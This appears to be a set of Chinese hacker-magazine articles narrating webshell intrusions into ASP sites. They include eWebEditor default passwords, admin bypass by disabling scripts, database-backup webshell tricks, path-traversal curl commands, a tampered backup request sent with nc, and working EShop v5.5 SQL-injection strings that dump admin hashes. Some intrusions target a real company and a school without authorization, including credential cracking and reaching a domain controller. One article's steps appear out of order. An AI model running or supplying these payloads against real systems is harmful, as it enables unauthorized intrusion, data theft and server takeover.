脚本中的xxxxxx就是你刚才记下的URL。其他随意填写，保存（如图10）。这样，当管理员在后台审核你的“留言”时，管理员的cookie就会被保存在你放asp空间中的a.txt中（如图11）。这样就可以利用管理员的cookie进入后台了。

- 方法4：禁用活动脚本绕过验证。该系统的后台主页文件为/admin/admin_index.asp。这个文件的session验证存在严重漏洞，我们来看代码（如图12），session验证文件为session.asp，那我们再来看这个文件（如图13），学过C语言的童鞋都能看懂，只有一条if语句，只验证是否为空，这个肯定是不够安全的，但是小菜我不会利用，还请大牛指教。不过不会利用这个也没有关系，因为下面的else后的语句更加搞笑，用脚本弹出对话框，跳转页面。殊不知，脚本是由客户端解释执行，也就是我们的浏览器。那么我们完全可以禁止活动脚本的执行，这样就相当于else后面的语句被忽略了，直接向下执行。也就是说我们绕过了后台验证进入了管理员页面。那么具体如何操作呢？
- 第一步，单击浏览器的“工具”→“Internet选项”→“安全”选项卡，在“自定义级别”中勾选禁用活动脚本（如图14、15、16）。
- 第二步，直接访问网站的后台主页/admin/admin_index.asp，这样就绕过了后台验证，直接进入了后台（如图17）。


## 二、进后台拿webshell

- 方法1：数据库备份。对于看了多年X档案的叉子们来说，这种拿webshell的方法最熟悉不过了。但是有些叉子不知道是什么原理，插句题外话，不管学习什么，知其然更要知其所以然，渗透更是如此，在学习前辈方法的时候不能只照猫画虎，应该弄懂原理，多看代码，这样才能举一反三，触类旁通。其实数据库备份拿webshell的原理很简单，程序不让我们上传asp等可执行文件，那么我们就上传允许的格式，如JPG等图片格式的webshell，上传成功后，只要系统的数据库备份过滤不严，就可以利用数据库备份的功能，将我们的JPG等格式的webshell备份为asp等可执行文件，这样不就绕过了上传限制吗！

具体操作为：
- 第一步，在后台的“增加产品”栏目上传图片格式的webshell（如图18），上传成功后右键图片，在“属性”中记下图片马的相对路径（如图19）。
- 第二步，点击“数据库备份”栏目，“当前数据库路径”中填入刚才记下的图片马相对路径，“备份数据库名称”中填入后缀为asp的文件，文件名任意写，点击“确定备份”（如图20）。提示备份成功后“后退”页面，再点击一次“确定备份”。为什么要这样做呢？因为第一次备份系统会将我们的马备份成mdb格式，第二次备份才会备份为asp格式。

- 方法2：当我们利用禁用脚本的方法进入后台后，虽然数据库可以备份，但不能上传图片，因为上传图片是要用到脚本的。这个时候该怎么办？既然数据库可以备份，那我们把数据库备份为asp格式的不就行了，问题又来了，数据库里没有我们的马！所以我们要想方设法向数据库里插入我们的一句话木马。思路有了，操刀验证我们的想法吧！

- 第一步，点击“系统管理”选项卡，在版权信息处写入一句话木马，确定修改（如图21）。这里要注意，尽量不要把一句话写到网站名称等处，因为主页上会显示这些信息。息，一相当于修改了主页，第一很容易被发现，第二这也是不应该做的。第二步，来到数据库备份页面，这次“当前数据库路径”保持默认，“备份数据库名称”还是后缀为asp的文件名，确定备份（如图22），记下备份数据库的路径，用中国菜刀连接，不出意外，就可以连上了（如图23）。这里还需要注意下，因为有时候网站的数据库比较大，我们用中国菜刀连接的时候会比较慢，当连接以后再上传大马。


图27

```vb
<% Option Explicit %>
...
<!--#include file="config.asp"-->
<!--#include file="upfile2.asp"-->
```

图28

```html
<!-- 上传代码 up.html 片段 -->
```

图29

## 三、不进后台拿 WebShell 方法

- 1. Ewebeditor在线编辑器样式修改。此系统的在线编辑登录页面为 admin/eWebEditor/admin/login.asp（如图24），默认 user:admin password:198625，不能进的还可以试试密码为 86779533、abc123、admin 这三个。进入后台后点击“样式管理”栏目，新建样式，样式名字随意写，图片类型处增加 asp 和 aaspsp。为什么要加 aaspsp 呢？因为有的在线管理器会过滤“.asp”，这样剩下的还是 asp。不是很巧妙啊，当然也可以加 cer、asa 等类型（如图25）。再为新建的样式增加工具栏和图片控件（如图26），预览此样式，上传 asp 格式的 WebShell。
- 2. 毕竟不是每次都能进入编辑器后台的，但这并不能阻止我们渗透的道路。既然有 Ewebeditor，那么就看看一些敏感文件有没有进行严格的后台验证，结果发现 /admin/ewebeditor/asp/upload.asp 没有进行后台验证，而这个上传页面存在新建任意文件夹漏洞，直接访问 http://xxxxxxx/admin/eWebEditor/asp/upload.asp?action=save&type=image&style=popup&cusdir=ok.asp 就可以创建名字为 asp.asp 的文件夹，利用如下上传代码 up.html（如图29）上传图片格式的 WebShell。上传后查看源文件，找到上传的图片马路径，访问就可以利用 IIS6.0 的文件解析漏洞拿到 WebShell。

#### 四、总结

用流程图总结一下整个过程（如图30），这么看来这个网站算是漏洞百出，不堪一击。但在渗透过程中并没有用到多么复杂高深的技术，都是一些常规的渗透技巧。重要的是思路，遇到问题就想办法解决它，当然还要有平时积累的经验，还有锲而不舍的菜鸟精神。不要一味地照搬别人的步骤，应该自己读读代码，搞懂为什么这样，授之以鱼，不如授之以渔。


图30

> （文章中涉及的相关代码本期光盘已收录）

### 对某公司站点的手工渗透

帅克笛枫

周末了，很长时间都没有动手检测站点了。今天难得清闲，对过去曾就任的公司网站做一番检测。我们首先来看看目标站点：http://www.wcs*.com（为避免对号入座，使用 * 代替站点的网址），asp 站点，如图1所示：

简单查看了一下硬件产品和软件产品链接，测试下 and 1=1、and 1=2，如图2所示：


图1

图2

并不存在注入点。

继续搜索，点击“关于**”，打开最新动态下面的任意一条新闻链接，按 Ctrl+N，打开菜单栏，习惯性地检测是否存在注入，如图3所示：

返回的页面显示一样，看来注入没戏了。

点击下面的管理登录链接，如图4所示：


图3


图4

进入管理页面，如图5所示：


图5

使用弱口令：admin、admin888，及万能密码 'or'='or' 进行一一登录，发现用户名和密码均不正确，不能登录。

再次打开关于**的页面，链接地址：http://www.we*.com/web/index.asp，打开最新动态“厦门”的链接，如图6所示：


图6

右击查看图片属性，如图7所示：


图7

发现有 ewebeditor 编辑器，输入常见的 ewebeditor 路径地址，登录 admin_login.asp 页面，如图8所示：


图8

很幸运，管理员并没有更改默认密码，使用 admin 直接打开进入。点击“样式管理-新增样式”，在图片处理中添加 asa，点击提交，如图9所示：

发现密码是通过 MD5 加密的，打开 www.cmd5.com 进行破解，得到管理员用户密码：18862。登录管理入口，后台管理界面如图14所示：


提交后弹出不能更新的错误提示，如图10所示：


接着就是想办法上传自己的马儿了。我们点击广告管理，点击添加，如图15所示：

默认密码就进入后台了，数据库被设置无写入权限，添加 asa 类型然后直接上传 asa 马这思路就行不通了，也没别人留下的痕迹。马上想到 ewebeditor 可以到目录，在 ewebeditor 后面添加 admin_uploadfile.asp?id=14&dir=../../ 看到当前目录下的文件夹和文件，如图11所示：


点击浏览随意上传一个 asp 的马儿，点击上传，点击保存。弹出上传成功，点击上传的图片，直接打开我们上传的马儿，如图16所示：

查看 Database 文件夹，发现下面一个文件名为 Westake_DataBase.mdb 的数据库，右击，将数据库另存为，保存在本地磁盘中，如图12所示：


打开数据库中的 login 表，查看用户名和密码，如图13所示：

简单查看下权限，还是比较大的，可以浏览各个盘符和目录，打开 cmd，输入 whoami，显示 nt authority\network service。输入 ipconfig /all，得知该服务器为域控制器，有两个网口，一个接内网，一个接外网，如图17所示：


浏览 C 盘，查看到管理员安装了 pcAnywhere，端口也没有更改，如图18所示：


图18

直接下载 pcAnywhere 的 cif 文件，还是有两个用户可供连接，如图19所示：


图19

使用 cif 破解软件，得到连接用户名和密码，如图20；在虚拟机上安装 pcAnywhere 连接服务器，如图21所示：


图20


图21

因为公司后台开了日志审核，故不再进一步登录系统，被发现就不好了。

此次入侵没有什么技术含量，只是在于巧妙地利用了 ewebeditor 编辑器的遍历目录，查询到数据库，进而上传。建议不要吊在一棵树上，应该灵活地发散思维，从多个方面开展，循序渐进，便能达到巧妙的效果。

### 检测某学校小站

#### 一、发现任意文件下载漏洞

昨天朋友给了一个学校的小站让我练下手，用了大半天的时间终于拿到了 shell。整个过程虽然没什么难度，但很考验耐心，把过程简单地和大家分享下。

先简单说下目标网站的情况：独立服务器，Windows 2003 操作系统，服务器上就一个学校的网站，服务器的网络带宽不高，在我这里访问速度很慢，有时候页面都显示不全，为此浪费了很多时间。

为了不泄露具体的网站地址，我在拿到 shell 后把网站的程序打包下载到了本地，在虚拟机里把网站运行了起来，简单修改了下原来网站的版权信息，一个和检测的网站几乎一模一样的模拟网站就诞生了，访问地址为 http://127.0.0.1/，如图1，我就用它重现拿 shell 的过程。以下所说的目标网站指的就是虚拟机里那个模拟的网站。

打开目标网站首页，发现首页内容比较多，并且知道了利用的是 ASP 的程序。随便点开一篇文章，地址为 http://127.0.0.1/E_ReadNews.asp?Newsid=59，熟悉的“E_ReadNews.asp”，难道是 E 创政府网站管理系统或者是利用 E 创改的系统？E 创的一个比较显著的特征就是防盗链。找到了一篇存在附件的文章，直接点附件可以下载，鼠标移上去显示文件的下载地址为 http://127.0.0.1/down.asp?FileName=rar/2011-9/201194163021223.rar，直接用浏览器打开该地址，提示“非法链接！”，如图2。和以前接触过的 E 创系统直接访问文件下载地址时的提示相同，现在几乎可以断定目标网站采用的是 E 创政府网站管理系统，或在其基础上修改来的系统。


图1


图2

确定了目标网站采用的程序对我来说是个好消息，因为我知道 E 创系统存在一个任意文件下载漏洞。看目标网站是否存在任意文件下载漏洞，尝试下载网站数据库连接文件 conn.asp 来测试下。首先用浏览器访问 http://127.0.0.1/conn.asp，显示空白页，没有出现找不到文件的错误提示，说明 http://127.0.0.1/conn.asp 文件存在，更加坚定了我对目标网站采用的是 E 创政府网站管理系统的想法，因为 E 创政府网站管理系统的数据库连接文件就是网站根目录下的文件 conn.asp。构造下载 conn.asp 的链接为 http://127.0.0.1/down.asp?FileName=doc/../../conn.asp.，注意地址最后面有一个英文点号。用浏览器直接打开该地址，并不能下载文件，提示“非法链接！”，如图3。


图3

这是因为网站检查了 REFERER 信息，只有 REFERER 信息是目标网站类似 http://127.0.0.1/E_ReadNews.asp?NewsID=309 这样的地址才可以，直接用浏览器打开下载地址时 REFERER 信息为空，自然不能下载了。怎么突破呢？以前用 Mozilla Firefox 浏览器的一个插件可以修改 REFERER 信息进而突破，后来我找到了更简单的办法，那就是用 Curl。

打开命令提示符，切换到 C 盘根目录下，输入命令：
“curl -e "http://127.0.0.1/E_ReadNews.asp?NewsID=309" -o conn.asp http://127.0.0.1/down.asp?FileName=doc/../../conn.asp.”
回车后通过执行命令后的显示知道下载了一个 771 字节大小的文件，如图4。

到 C 盘看，文件 conn.asp 已经躺在根目录下了，用记事本打开它，确实是 conn.asp 被下载回来了，如图5。


图4


图5

在 conn.asp 中找到了我感兴趣的内容：

```vb
'DbType = "MSSQL" 连接MSSQL数据库
'DbType = "MYSQL" 连接MYSQL数据库
DbType = "ACCESS" 连接ACCESS数据库
if DbType="ACCESS" then
  DB = "/DataBase/####GOV.cn####.asp"
  ConnStr = "Provider = Microsoft.Jet.OLEDB.4.0;Data Source = " & Server.MapPath(db)
end if
```


图6

通过代码知道网站利用的是 ACCESS 数据库，数据库路径为 DataBase/####GOV.cn####.asp，把 ####GOV.cn#### 转化为 URL 编码 %23%23%23%23%47%4F%56%2E%63%6E%23%23%23%23，数据库的完整 URL 地址为：http://127.0.0.1/DataBase/%23%23%23%23%47%4F%56%2E%63%6E%23%23%23%23.asp。用浏览器访问，出现了错误提示“Microsoft VBScript 编译器错误 错误 '800a040e' 'loop' 语句缺少 'do'”，如图6，看来数据库有防下载处理，不能直接下载。

#### 二、下载网站主数据库文件受阻

再来试下用任意文件下载漏洞能不能下载数据库文件。在命令行下输入命令：
“curl -e "http://127.0.0.1/E_ReadNews.asp?NewsID=309" -o ####GOV.cn####.asp http://127.0.0.1/down.asp?FileName=doc/%./.%/DataBase/%23%23%23%23%47%4F%56%2E%63%6E%23%23%23%23.asp”
回车后显示下载的文件大小为 0（图7），来到 C 盘根目录下，也没有新文件 ####GOV.cn####.asp 生成，看来数据库文件下载失败了。再尝试下载了几个网站目录下的 asp 文件，都下载成功，就是下载数据库文件不成功，不知道怎么回事，知道原因的朋友欢迎和我交流。

#### 三、下载文件读文件收集信息

下载网站主数据库文件受阻，网站又不存在明显的其它简单漏洞，只能多收集点信息了。用 WVS 扫描了一下网站的目录和文件，发现了网站的后台登录地址为 http://127.0.0.1/login.asp，在后台登录页面显示的版权信息为“学校网站管理系统 V2010”，看来目标网站的网站程序不是纯正的 E 创政府网站管理系统，可能是在 E 创政府网站管理系统的基础上修改来的一个学校网站管理系统。虽然有了后台登录地址，却没有管理员的用户名和密码，进不了后台。现在能利用的就是一个任意文件下载漏洞（网站主数据库下载不了），暂时没别的方法，只能用它多下载些网站的文件来读，希望能从中发现有用的信息。

在 WVS 的扫描结果中几个目录比较特别，它们是 kscx、xjg1、cjcx、OA，说不定网站目录下还有别的 Web 程序。

先来看 kscx 目录下是什么东西，用浏览器打开 http://127.0.0.1/kscx/，发现是一个工作量查询系统，如图8。


在页面上有登录的地方，应该验证登录的时候需要查询数据库，看它用的是哪个数据库文件。如果能下载的话看里面有没有敏感信息。通过查看网页源代码知道验证登录的文件为 ALoginCheck.asp，在命令行下输入：
“curl -e "http://127.0.0.1/E_ReadNews.asp?NewsID=309" -o ALoginCheck.asp http://127.0.0.1/down.asp?FileName=doc/%./.%/kscx/ALoginCheck.asp”
把文件 ALoginCheck.asp 下载了回来。用记事本打开，发现数据库文件为 ALoginCheck.asp 所在目录下的 BGMConn.asp。在命令行下输入命令：
“curl -e "http://127.0.0.1/E_ReadNews.asp?NewsID=309" -o BGMConn.asp http://127.0.0.1/down.asp?FileName=doc/%./.%/kscx/BGMConn.asp”
回车后显示下载了一个 254 字节大小的文件。打开下载回来的 BGMConn.asp，得到了数据库的路径 Database/FlexMenu.mdb，URL 地址为 http://127.0.0.1/kscx/Database/FlexMenu.mdb。用浏览器打开，出来了数据库下载的对话框，如图9。打开下载回来的 FlexMenu.mdb，在一个名为 namesfz 的表中发现了一个用户名为 admin，密码为 xxx2c3a3278705d6。

## 一个令人陷阱的用户

看起来像一个管理员用户。在在线破解网站破解出密码为xxx015；用用户名admin和密码xxx015在http://127.0.0.1/kscx/登录；发现果然是管理员用户，进入了工作量查询系统的后台，原来是一个工资查询系统，如图10。这个后台功能太简单，没找到拿shell的方法，先暂时不管它了，换别的目录看看。

打开http://127.0.0.1/xjgl/，发现是一个学生信息管理系统，也是一个登录页面，如图11。


图11

打开http://127.0.0.1/xjgl/其实打开的是http://127.0.0.1/xjgl/index.asp，通过查看网页的源代码知道登录验证文件就是index.asp，在命令行下输入命令“curl -e "http://127.0.0.1/E_ReadNews.asp?NewsID=309" -o index.asp http://127.0.0.1/down.asp?FileName=doc/../../xjgl/index.asp”，把index.asp下载了回来，用记事本打开它，发现数据库连接文件为Inc/oConn.asp，构造命令“curl -e "http://127.0.0.1/E_ReadNews.asp?NewsID=309" -o oConn.asp http://127.0.0.1/down.asp?FileName=doc/../../xjgl/Inc/oConn.asp”，把oConn.asp下载了回来。用记事本打开oConn.asp，得到学生信息管理系统的数据库为DBP，是一个变量，但不知道它的具体值。返回来看index.asp的代码，发现还包含了文件Inc/Info.asp；下载回来打开，发现Inc/Info.asp又包含了文件config.asp；构造命令“curl -e "http://127.0.0.1/E_ReadNews.asp?NewsID=309" -o config.asp http://127.0.0.1/down.asp?FileName=doc/../../xjgl/Inc/config.asp”，把config.asp下载了回来，在里面终于找到了变量DBP的值为Data/db1.mdb，如图12。学生信息管理系统的数据库的下载地址为http://127.0.0.1/xjgl/Data/db1.mdb，下载后打开，在数据库中发现了一个用户名为admin，密码为7a57a5a743894a0e的管理员用户，破解出密码为admin。用获得的管理员的用户名和密码进入了学生信息管理系统的后台（图13），但后台还是功能太简单，还是没获得shell。


图12


图13

打开http://127.0.0.1/cjcx/index.asp，发现是一个学生成绩查询系统，首页也是一个登录页面，如图14。


图14

通过下载文件读文件知道了学生成绩查询系统的数据库为data/#yzbzcj258456.mdb，下载地址为http://127.0.0.1/cjcx/data/%23yzbzcj258456.mdb，成功下载到了数据库文件，打开数据库的时候提示输入密码，看来加密了，在数据库连接文件dataconn.asp中找到数据库加密的密码netpat@163.net，在数据库中发现了一个用户名为admin，密码为7a57a5a743894a0e的用户，破解出密码为admin，后台登录地址为http://127.0.0.1/cjcx/admin/Admin_Index.asp，进入了后台，但令人失望的是后台功能太少，还是没有找到拿shell的方法。

剩下最后一个觉得异常的目录OA没看了。打开http://127.0.0.1/OA/default.asp，发现了如图15的OA办公系统的登录页面。


图15

```bash
curl -e "http://127.0.0.1/E_ReadNews.asp?NewsID=309" -o default.asp http://127.0.0.1/down.asp?FileName=doc/../../OA/default.asp
```

下载它，下载回来打开后发现它包含了文件asp/opendb.asp，构造命令“curl -e "http://127.0.0.1/E_ReadNews.asp?NewsID=309" -o opendb.asp http://127.0.0.1/down.asp?FileName=doc/../../OA/asp/opendb.asp”，把opendb.asp下载了回来，打开后找到了OA办公系统的数据库文件为db/lmtof.mdb，下载地址为http://127.0.0.1/OA/db/lmtof.mdb，下载后找到了一个包含很多用户名密码的表，如图16。其中有一个管理员用户，用户名为admin，密码为xxx5201125，密码不像经过加密的，应该就是明文密码。用得到的管理员的用户名和密码在页面http://127.0.0.1/OA/default.asp登录进了OA办公系统的后台，如图17。在这个后台还是没获得shell。

暂时没突破的地方了，就看网站的页面，一个链接一个链接地点开看。发现目标网站上好几篇文章的作者都是xxxx-bgs，而且这个用户名好像在OA办公系统的数据库中见过，再仔细看OA办公系统数据库里的用户名，果然发现有xxxx-bgs这个用户，密码为gxf123，如图18。用这个用户的用户名xxxx-bgs和密码gxf123尝试登录，居然进去了，如图19。在后台的首页显示“您的权限：文章审核员”，看来这个用户不是管理员，只是一个文章审核员，权限很低，很多后台功能不能用，点“系统设置”后下面出来个“管理登录”的子菜单，点击它出来了“管理员登录”的登录框，看来进来的只能算个前台，根本不是后台，如图20。用用户名xxxx-bgs密码gxf123尝试登录，提示“用户不存在”。xxxx-bgs这个用户可以添加文章，但没发现上传漏洞，拿不了shell。


#### 四、幸运进入网站主前台

前面进了几个网站下其它Web程序的后台；遗憾的是都没有拿到shell，好在收集到了一些管理员的用户名和密码，看用它们能不能登录网站主后台。打开目标网站的后台页面http://127.0.0.1/login.asp，首先用在工作量查询系统中得到的用户名admin，密码xxx015尝试登录，提示“用户不存在”，看来网站主数据库中根本不存在admin这个用户。又尝试了manager这个用户，也不存在。一时卡到这里了。


用在网页上发表文章的署名用户进了后台（严格说是前台），这个鼓励了我，继续在网站上找发表文章的用户，又找到了一个用户xxxquan。又到那个保存了用户名和密码的OA办公系统的数据库中去找，没找到xxxquan这个用户，试了几个弱口令，不对，试了在工作量查询系统中找到的那个管理员的密码xxx015，这次对了，进入了“后台”，而且这次的用户级别为“超级管理员”，如图21。

#### 五、进入真正的网站后台

难道我人品爆发了？结果是我高兴得太早了。后台功能中我感兴趣的“系统配置”和“附件管理”下仍然只有一个“管理登录”子菜单，点击后又出来了“管理登录”的登录框，和用xxxx-bgs用户登录时的情况一样。当前用户已经为超级管理员了怎么还让管理登录？难道还有一个后台？叫登录我就来尝试登录，首先用当前用户的用户名xxxquan密码xxx015尝试登录，提示“用户不存在”，又尝试了用admin、manager做用户名登录，都提示“用户不存在”。看来用户名不是常见的管理员用户名，是个自己定义的。

连用户名都不知道，密码根本没法尝试，先来看看能不能找到管理员（后台的）用户名。尝试了OA办公系统的数据库中所有的用户名，都提示“用户不存在”。挫折了。

来到目标网站首页，在页面最下方有一个管理员的邮箱地址：xxxschool@yahoo.com.cn，用邮箱地址中的用户名部分xxxschool作为用户名尝试登录，这次提示不是“用户不存在”了，变成了“用户名或密码出错，请返回检查”，看来管理员的用户名猜对了，就是xxxschool。密码我随便写的123456，所以出错了。该来找密码了。用前面已经找到的几个小Web系统中的管理员用户的密码来做尝试。首先试xx015，不对；尝试admin，还是不对。尝试到在OA办公系统的数据库中找到的管理员的密码xxx5201125时，对了，终于进入了真正的后台。这才是真正的后台，以前看不到的“网站属性”、“功能设置”、“附件管理”等功能菜单都出来了，如图22。


## 六、后台拿shell之路

终于进了网站的主后台，继续找拿shell的方法。点后台首页的“查看更多详细服务器信息检测”后得到了IIS版本为Microsoft-IIS/6.0，Microsoft-IIS/6.0是存在解析漏洞的，拿shell的时候说不定能用得着。


点后台“系统设置”下的“网站属性”子菜单，在打开的页面中可以设置允许上传文件的类型，添加asp、asa、cer、cdx类型，点“提交”按钮后提示“已经成功添加到数据库!”，显示允许上传的文件也多了asp、asa、cer、cdx类型，如图23。点“文章管理”下的“添加文章”子菜单打开添加文章的页面，在这里可以上传文件，点“浏览”按钮选择一个asp文件（内容是ASP一句话木马的服务端代码），点“上传附件”按钮进行上传，提示“这种文件类型不允许上传!”，如图24。把文件扩展名分别修改为.asa、.cer、.cdx，都提示“这种文件类型不允许上传!”，通过直接上传获得shell的方法在这里行不通了。估计对上传文件在别处进行了另外的检查。


点击“附件管理”下的“备份压缩”子菜单，来到了数据库管理的地方，在这里可以备份数据库，可以恢复数据库，可以压缩数据库，还可以查看网站空间占用情况，如图25。点“备份数据库”打开了如图26的数据库备份页面，本来以为shell马上到手了，但仔细一看，遇到了一点麻烦：要备份数据库的当前数据库路径不能修改。


图26

直接点“开始备份”按钮来看一下备份数据库功能是不是能正常使用，提示“备份数据库成功，您备份的数据库路径为C:\www\Databackup\2011-11-30.mdb”，看来备份功能正常，还得到了目标网站的绝对路径。把备份数据库名称修改为test.asp，点“开始备份”按钮后提示“请不要备份为带非法后缀名的文件”，不能备份为.asp的数据库文件，可以考虑利用IIS 6.0的解析漏洞突破。本来想通过把备份页面的源文件保存到本地修改后本地提交备份数据库，但查看备份页面的源文件却只有几行代码，根本没有备份的关键代码，如图27。直接访问数据库备份的地址http://127.0.0.1/Db_Compact.asp?Action=BackupData，想获得网页的源文件，却提示“请通过正确的链接进入本站！”，此路也不通。

到网上查了下，发现有人公布了两个E创系统后台拿shell的方法。第一个方法是文件插马，在网站属性设置功能处插入一句话代码，shell文件就是Inc目录下的config.asp这个文件；第二个方法是抓数据库备份时的包，改包后用nc提交获得shell。第一种文件插马的方法可能把文件插坏，而config.asp这个文件又是个很重要的保存网站配置信息的文件，把它弄坏后也可能导致目标网站瘫痪；第二个方法好像没什么副作用，我决定用它。

在添加文章的地方把一个包含ASP一句话木马的小jpg文件上传到目标网站，得到上传后的文件为upload-file/jpg/2011-11/20111130213641160.jpg。来到数据库备份的地方，备份数据库名称写x.asp;x.mdb，点“开始备份”按钮进行备份，提示“备份数据库成功，您备份的数据库路径为C:\www\Databackup\x.asp;x.mdb”，看来备份成功了。对备份过程用wsockexpert抓包，抓到了两个有用的数据包，如图28。


图27


图28

来到数据库恢复的地方。在这里备份数据库路径可以自己定义，但恢复成的数据库文件不能自定义，是网站的主数据库文件DataBase/#####GOV.cn#####.asp。在这里应该可以拿到shell，方法是把ASP一句话木马的文件扩展名修改为jpg，在添加文章的地方把它上传上去，记下上传后的地址，备份好目标网站的数据库，来到数据库恢复的地方，要恢复的数据库备份文件写上传上去的包含ASP一句话木马的图片文件的地址，恢复后获得了shell，但网站的数据库也被我们恢复成了ASP一句话木马，网站瘫痪。想到的补救措施是获得shell后赶快再上传一个shell，利用新上传的shell删除文件DataBase/#####GOV.cn#####.asp，然后把备份的网站主数据库文件复制到DataBase目录下，重命名为#####GOV.cn#####.asp。但这样获得shell的方法有一定风险，上面的过程有一个步骤出错都将导致目标网站瘫痪，这是我非常不希望发生的，因此不到实在没有别的方法拿shell了不敢使用。

第一个数据包的内容为：

```http
POST /Db_Compact.asp?action=BackupData&act=Backup HTTP/1.1
Accept: application/x-shockwave-flash, image/gif, image/x-xbitmap, image/jpeg, image/pjpeg, application/vnd.ms-excel, application/msword, */*
Referer: http://127.0.0.1/Db_Compact.asp?Action=BackupData
Accept-Language: zh-cn
Content-Type: application/x-www-form-urlencoded
UA-CPU: x86
Accept-Encoding: gzip, deflate
User-Agent: Mozilla/4.0 (compatible; MSIE 7.0; Windows NT 5.2; .NET CLR 2.0.50727)
Host: 127.0.0.1
Content-Length: 101
Connection: Keep-Alive
Cache-Control: no-cache
Cookie: ...
...
```

第二个数据包的内容为：

```text
DBpath=DataBase%2F%23%23%23%23%23GOV.cn%23%23%23%23%23.asp&bkfolder=Databackup&bkDBname=x.asp%3Bx.mdb
```

特别注意，要把数据包的内容复制全，第一个数据包最后有一个空行，不要漏掉。在这里我犯了一个低级错误，起先第一个数据包我漏掉了最后的空行，改完包用nc提交时出错了，提示“Bad Request (Invalid Header Name)”。

在C盘根目录下新建了一个名为bao.txt的文本文件，把第一个和第二个有用数据包的内容依次复制到bao.txt中保存。下面来改包，主要修改的是第二个数据包的内容……

```text
DBpath=uploadfile%2Fjpg%2F2011-11-%2F20111130213641160.jpg&bkfolder=Databackup&bkDBname=x1.asp%3Bx.mdb
```

改包基本完成，最后来修改包的长度，其中第一个数据包中“Content-Length: 101”就是数据包的长度……

“bkDBname=x.asp%3Bx.mdb”的长度正好是101个字节……保存对文件bao.txt的修改，修改后的bao.txt中的内容如图29。


图29


图30

把nc.exe复制到C盘根目录下，输入命令“nc 127.0.0.1 80 <bao.txt”，回车后在回显内容中看到了“备份数据库成功……”的文字，如图30，说明备份成功了……


图31

经过测试，服务器支持.aspx文件，上传了一个aspx的大马ASPXSpy上去……我的目标是shell，拿到shell了，也可以结束本次检测了。

## 一个人的战争


图32

从下载漏洞文件到收集网站下其他 Web 程序的管理员信息，再从已经收集的信息组合出网站前台的用户名和密码到进入网站后台，最后拿到 shell。整个过程没什么难度，都是一些最基本的手法，就是过程繁琐了点，尤其是下载文件收集有用信息的时候，加上真实目标网站的访问速度太慢，打开个大点的页面有时候半分钟后还显示不全页面，为此浪费了很多时间。最深的感触是，有了耐心什么都不是问题。通篇没任何技术含量，高手莫笑，给还没入门的新手朋友看个过程。

本人菜鸟一个，欢迎大家指点和交流，我在黑客X档案官方论坛的 ID 是 txcbg。

### 网奇EShop网上商城系统注射漏洞

txcbg

前几天在网上看到 twygame 公布了一个漏洞，是网奇 EShop 网上商城系统的注射漏洞，利用漏洞可以直接爆管理员用户名和密码。经过本地测试，利用此漏洞可以拿到 shell。下面把这个漏洞简单介绍给大家。

网奇 EShop 网上商城系统是基于 .Net 平台开发的免费商城系统，功能强大，操作方便，设置简便，无需任何设置，上传到支持 asp.net 的主机空间即可使用。目前最新版本为网奇 Eshop 网络商城系统 v5.5。漏洞影响最新版本的网奇 Eshop 网络商城系统 v5.5。

#### 一、搭建测试网站

网奇 Eshop 网络商城系统根据采用数据库的不同分为 Access 版和 MsSQL 版。我是用网奇 Eshop 网络商城系统 v5.5 ACC 版在本地的虚拟机里做的测试。

下载网奇 Eshop 网络商城系统 v5.5 ACC 版的源代码，在虚拟机里的 Windows 2003 系统中把解压出来的商城源码 wqshop5.5_AC 文件夹下的所有文件复制到网站根目录下就完成了测试网站的搭建，无须进行安装操作。测试网站在虚拟机里的访问地址为 http://127.0.0.1/，如图1。


图1

#### 二、漏洞利用过程

由于漏洞公布者 twygame 只给出了漏洞利用方法，没有给出漏洞分析，因此直接来看漏洞怎么利用。

这个漏洞是在会员信息的地方存在注入漏洞，因此先来注册一个会员。点网站首页的“注册”按钮，注册了一个用户名为 test、密码为 123456、找回密码问题为 123456、找回密码答案为 654321 的用户。注册成功后会自动以注册的用户登录，如图2。点图2中的“用户中心”来到用户中心，再点“会员信息”就打开了如图3的会员信息页面。就是在这里存在注入漏洞。


图2


图3

网奇 Eshop 网络商城系统 v5.5 ACC 版的数据库中，保存用户信息的表 Member 中的内容如图4。


图4

用户编号字段名为 MemberID，用户名的字段名为 Name，密码的字段名为 Password。先来爆管理员用户的用户编号，在“会员信息”的“找回密码答案”处输入如下代码：

```sql
',Name=Cstr(DLookUp('MemberID','admin'))+'
```

点“修改用户信息”按钮后显示如图5，在用户名处显示的是“1”，1就是管理员用户的用户编号。


图5

接着来爆管理员用户的用户名，在“会员信息”的“找回密码答案”处输入如下代码：

```sql
', Name = Cstr(DLookUp('Name', 'member', 'MemberID=1'))+'
```

点“修改用户信息”按钮后显示如图6，在用户名处显示了管理员的用户名 admin。


图6

再接着来爆管理员用户的密码，在“会员信息”的“找回密码答案”处输入如下代码：

```sql
', Name = Cstr(DLookUp('Password', 'member', 'MemberID=1'))+'
```

点“修改用户信息”按钮后在用户名处显示的是 7a57a5a743894a0e，是管理员密码的 MD5 值（图7）。

特别说明：以上注入语句是漏洞公布者 twygame 提供的。

通过注入获得了管理员用户的用户名和密码的 MD5 值，只要能破解出密码就可以进入网奇 EShop 网上商城系统的后台了。

7a57a5a743894a0e 在在线破解网站破解出的密码为 admin。


图7

假设你已经破解出了密码，下面可以来进后台了。网奇 Eshop 网络商城系统 v5.5 ACC 版的默认后台目录是 Admin，访问 http://127.0.0.1/Admin/ 就可以来到后台登录页面。用上面过程得到的管理员用户名和密码进入了后台，如图8。在后台文章管理的添加新闻处可以上传图片，上传了一个正常的小图片 x.jpg，上传成功，如图9。


图8


图9

并且发现上传上去的文件没有被重命名，这是个好消息。怎样获得文件上传上去后的访问地址呢？双击图9中的 x.jpg 的缩略图，x.jpg 就插入了文章中，点编辑器的“HTML”按钮后就看到了 x.jpg 的访问地址为 http://127.0.0.1/upload/uploadfiles/x.jpg，如图10。原来上传的图片保存在网站目录下的 /upload/uploadfiles/ 目录下。

尝试直接上传文件 x.asp，提示“您无法上传这种类型的文件”，上传失败。因为虚拟机中的 Web 服务器软件是 IIS 6.0，考虑用 IIS 6.0 的解析漏洞来获得 shell。把 ASP 一句话木马服务端文件命名为 x.asp;x.jpg，上传，获得上传后的访问地址为 http://127.0.0.1/upload/uploadfiles/x.asp;x.jpg，用 lake2 的 eval 最小马发送端连接 http://127.0.0.1/upload/uploadfiles/x.asp;x.jpg，获得了 shell，如图11。

这种获得 shell 的方法有一定的局限性，要求 Web 服务器软件必须是 IIS 6.0。好在现在运行 ASP.NET 程序的 Web 服务器软件绝大多数是 IIS 6.0，这个条件很容易满足。


图10  
图11

